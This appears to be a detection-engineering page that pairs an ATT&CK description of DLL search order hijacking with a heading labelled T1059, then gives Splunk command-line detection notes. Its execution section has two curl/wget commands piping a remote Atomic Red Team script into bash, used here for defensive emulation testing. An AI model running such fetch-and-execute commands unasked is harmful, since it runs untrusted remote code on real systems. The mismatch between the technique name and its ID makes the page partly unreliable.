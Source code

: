 # T1059 - DLL Search Order Hijacking
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1038)
<blockquote>
Windows systems use a common method to look for required DLLs to load into a program. [1](https://docs.microsoft.com/en-us/windows/desktop/Dlls/dynamic-link-library-search-order) Adversaries may take advantage of the Windows DLL search order and programs that ambiguously specify DLLs to gain privilege escalation and persistence.

Adversaries may perform DLL preloading, also called binary planting attacks, [2](https://www.owasp.org/index.php/Binary_planting) by placing a malicious DLL with the same name as an ambiguously specified DLL in a location that Windows searches before the legitimate DLL. Often this location is the current working directory of the program. Remote DLL preloading attacks occur when a program sets its current directory to a remote location such as a Web share before loading a DLL. [3] Adversaries may use this behavior to cause the program to load a malicious DLL.

Adversaries may also directly modify the way a program loads DLLs by replacing an existing DLL or modifying a .manifest or .local redirection file, directory, or junction to cause the program to load a different DLL to maintain persistence or privilege escalation. [4] [5] [6]

If a search order-vulnerable program is configured to run at a higher privilege level, then the adversary-controlled DLL that is loaded will also be executed at the higher level. In this case, the technique could be used for privilege escalation from user to administrator or SYSTEM or from administrator to SYSTEM, depending on the program.

Programs that fall victim to path hijacking may appear to behave normally because malicious DLLs may be configured to also load the legitimate DLLs they were meant to replace


</blockquote>

## Assumptions
Attacker or local user has access to command propmpt or powershell

## Execution:
 

<blockquote>
```
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
bash -c "wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Atomics/T1059/echo-art-fish.sh | bash"
```
</blockquote>

or any commandline or powershel command

## Detection:
* Monitor CommandLine activity (including powershell)
* [Read Mitre ATT&CK for more Detection info](https://attack.mitre.org/wiki/Technique/T1059)

### Visibility
* Windows event log
* Enable Commandline audit
* Command line / Powershell activity

### Filter / Correlation in Splunk
Following catch both comandline and powershell, although they can be separated in two. 

```
"CommandLine:*"
```

![Splunk Detection](https://github.com/avaplex/dpi911/blob/master/images/T1059.JPG)
